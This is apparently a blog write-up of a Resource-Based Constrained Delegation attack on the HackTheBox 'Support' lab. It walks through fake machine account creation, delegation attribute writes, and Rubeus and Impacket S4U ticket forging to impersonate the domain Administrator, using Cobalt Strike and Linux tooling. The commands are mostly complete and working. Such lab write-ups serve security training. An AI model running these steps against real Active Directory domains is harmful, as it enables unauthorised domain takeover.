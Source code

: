 ```yaml
---
title: Kerberos - Resource-based Constrained Delegation(RBCD)
date: 2025-05-07 06:00:00 +/-TTTT
categories: [Kerberos]
tags: [Kerberos-RBCD]     # TAG names should always be lowercase
image : /assets/images/RBCD.gif
---
```

## Entry

### ➜ Introduction: What is KCD and RBCD?

* Kerberos Constrained Delegation (KCD) allows a service to act on a user's behalf, but only to specific services.

* Resource-Based Constrained Delegation (RBCD), added in Windows Server 2012 and newer, shifts control from domain admins to resource owners. It also allows delegation across domains. This improves security by letting back-end service owners decide who can impersonate users to them, not just the front-end service admins.

| Feature                      | KCD                                     | RBCD                                                 |
| ---------------------------- | --------------------------------------- | ---------------------------------------------------- |
| Who sets delegation?         | Domain Admin (on the front-end account) | Resource Owner (on the back-end account)             |
| Works across domains?        | ❌ No                                    | ✅ Yes                                                |
| Configuration complexity     | Higher (requires Domain Admin access)   | Lower (delegation is self-service)                   |
| Delegation control direction | "Push" model (who can delegate)         | "Pull" model (who is allowed to be delegated **to**) |
| Protocol used                | S4U2Proxy                               | S4U2Proxy + \[MS-SFU] extensions                     |

### ➜ Requirements

| **Item**                   | **Value / Description**          |
| -------------------------- | -------------------------------- |
| **Target Computer**        | `DC`                           |
| **Admin on Target**        | `Administrator@suport.htb`         |
| **Fake Computer Name**     | `fiona$`                         |
| **Fake Computer SID**      | 🔄 To be retrieved during attack |
| **Fake Computer Password** | `Password123!`                         |

## Windows Abuse with Cobalt Strike

First of all lets import PowerView module
```sh
powershell-import /home/elliot/tools/PowerView.ps1
```
This attack involves creating a new computer object in the domain, we first need to verify whether regular users are permitted to do so. By default, domain members can typically join up to 10 computers to the domain. To confirm this setting, we can query the root domain object and check the ms-DS-MachineAccountQuota attribute.

Command to execute:
```sh
powerpick Get-DomainObject -Identity "dc=support,dc=htb" -Domain support.htb
```
![alt text](../assets/images/rbcd1.png)

The quote is set to the default of 10, which is good.

I’ll also need to make sure there’s a 2012+ DC in the environment:

Command to execute:
```sh
powerpick Get-DomainController
```
![alt text](../assets/images/rbcd2.png)

2022 Standard is great.

Finally, I’ll want to check that the msds-allowedtoactonbehalfofotheridentity is empty:

Command to execute:
```sh
powerpick Get-NetComputer DC | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```
![alt text](../assets/images/rbcd3.png)
It is.

### ➜ Create Fake Computer

Of course im gonna use [StandIn](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe)

Command to execute:
```sh
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/StandIn.exe --computer EvilComputer --make --Domain support.htb
```
![alt text](../assets/images/rbcd6.png)

It's created machine EvilComputer with password `506mQJ9QBwjn8nR`

Get its SID

Command to execute:
```sh
powerpick Get-DomainComputer -Identity EvilComputer -Properties objectsid
```
![alt text](../assets/images/rbcd5.png)


Using Active Directory Module we can set msDS-AllowedToActOnBehalfOfOtherIdentity

Commands to execute:
```sh
powerpick Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount EvilComputer$
powerpick Get-ADComputer dc -Properties PrincipalsAllowedToDelegateToAccount
```
![alt text](../assets/images/rbcd7.png)

Now to get a S4U hash to impersonate as administrator with Rubeus

Command to execute:
```sh
execute-assembly /home/elliot/tools/Rubeus.exe hash /password:506mQJ9QBwjn8nR /user:EvilComputer$ /domain:DC.support.htb
```
![alt text](../assets/images/rbcd8.png)

Now lets craete ticket for Administrator.

Command to execute:
```sh
execute-assembly /home/elliot/tools/Rubeus.exe s4u /user:EvilComputer$ /password:506mQJ9QBwjn8nR /domain:support.htb /impersonateuser:administrator /rc4:F77FBC0468F740418C4D2C05339A8FBF /msdsspn:host/dc.support.htb /nowrap
```
![alt text](../assets/images/rbcd9.png)

now lets save it as kirbi file at our host

Command to execute:
```sh
echo -n "do[SNIP]" | base64 -d > administrator.kirbi
```
![alt text](../assets/images/rbcd10.png)

kirbi -> ccache and save it

```sh
➜  Kerberos ticketConverter.py administrator.kirbi administrator.ccache
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
➜  Kerberos export KRB5CCNAME=administrator.ccache 
```

and now we can access as administrator

![alt text](../assets/images/rbcd11.png)

## Linux Abuse

Since we have Linux abuse now im gonna start with Bloodhound.

The Linux Abuse section suggests to leverage RBCD, so let's do that by slightly modifying the commands shown by BloodHound. The prerequisites for this exploitation are:
![alt text](../assets/images/rbcd12.png)

### ➜ Requirements for the Attack:

| Requirement                                                | Status                            |
| ---------------------------------------------------------- | --------------------------------- |
| **WRITE permissions on target SPN account**                | ✅ We have `GenericAll` rights     |
| **Machine account creation allowed (MachineAccountQuota)** | ✅ Default is 10 unless restricted |

Attack Process Overview (RBCD Abuse):

* Create a new machine account (SPN) -> Example name: FAKE01$ (This will act as the malicious `front-end` system)

* Configure Resource-Based Constrained Delegation (RBCD) 

* Set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute on the target system (WS01) -> This allows our fake machine account to impersonate any user to WS01.

* Impersonate Administrator via S4U2Self + S4U2Proxy:

* Use the fake machine account to request a Service Ticket (ST) for itself as the Administrator (S4U2Self).

* Use that ST to request another ST to the target service (e.g., cifs/WS01.support.htb) as Administrator (S4U2Proxy).

Lets check if we have `maq` here as we did windows we can do only with nxc.

Command to execute

```sh
nxc ldap DC.support.htb -u <username> -p '<password>' -M maq
```
![alt text](../assets/images/rbcd14.png)

Now abuse.

Commands to execute

```sh
addcomputer.py -computer-name 'FAKE01$' -computer-pass 'NewPassword123!' -dc-host 'DC.support.htb' 'support.htb/<username>:<password>'
rbcd.py -delegate-from 'FAKE01$' -delegate-to 'dc$' -action 'write' 'support.htb/<username>:<password>' -dc-ip 10.10.XX.XX
getST.py -spn 'cifs/dc.support.htb' -impersonate 'administrator' 'support.htb/FAKE01$:NewPassword123!'
```
![alt text](../assets/images/rbcd13.png)

bomm!!!

U can practice [HackTheBox - Support](https://app.hackthebox.com/machines/Support)
